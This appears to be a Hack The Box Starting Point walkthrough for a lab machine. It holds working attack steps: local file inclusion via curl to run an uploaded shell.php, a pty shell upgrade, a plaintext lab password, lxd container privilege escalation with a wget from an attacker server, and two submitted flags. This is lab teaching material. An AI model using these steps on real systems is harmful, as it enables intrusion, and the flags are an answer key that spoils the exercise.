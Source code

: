 # Connect to HTB
openvpn starting_point_MidnightKali.ovpn

# Spawn Machine

# Target machine IP address
10.129.95.185

# Export IP
export IP=10.129.95.185

# Check 
echo $IP

TASK 1

What service is running on the target machine over UDP?

# Run NMAP on UDP
sudo nmap -sU $IP -oN nmap-sU.txt
nmap -sV $IP -oN nmap-sV-IP

Nmap scan report for 10.129.217.95
Host is up (0.57s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http


Nmap scan report for 10.129.217.95
Host is up (0.29s latency).
Not shown: 998 closed ports
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
69/udp open|filtered tftp

tftp

TASK 2

What class of vulnerability is the webpage that is hosted on port 80 vulnerable to?

Local File Inclusion


TASK 3

What is the default system folder that TFTP uses to store files?

/var/lib/tftpboot/

TASK 4

Which interesting file is located in the web server folder and can be used for Lateral Movement?

curl 'http://$IP/?file=/var/lib/tftpboot/shell.php'

curl 'http://10.129.175.167/?file=/var/lib/tftpboot/shell.php'

curl 'http://10.129.176.101/?file=/var/lib/tftpboot/shells.php'


http://10.129.175.167/?file=home.php
# Better BASH using python3
python3 -c 'import pty;pty.spawn("/bin/bash")'



# Search around 
The web-related files are usually stored in the /var/www/html folder

cd /var/www/hml
cat .htpasswd

# Login to mike
su mike
Password: Sheffield19

TASK 4

Which interesting file is located in the web server folder and can be used for Lateral Movement?
.htpasswd

TASK 5

What is the group that user Mike is a part of and can be exploited for Privilege Escalation?

# Check unix groups
groups

lxd

TASK 6

When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name?

Alpine (Image)

# Start a Python3 Web Server
python3 -m http.server 8000

wget http://192.168.1.138:9800/lxd.tar.xz

TASK 7

What flag do we set to the container so that it has root privileges on the host system?

security.privileged=true

TASK 8

If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted?

/mnt/root/

SUBMIT FLAG

Submit user flag

HTB{a56ef91d70cfbf2cdb8f454c006935a1}

SUBMIT FLAG

Submit root flag

HTB{c693d9c7499d9f572ee375d4c14c7bcf}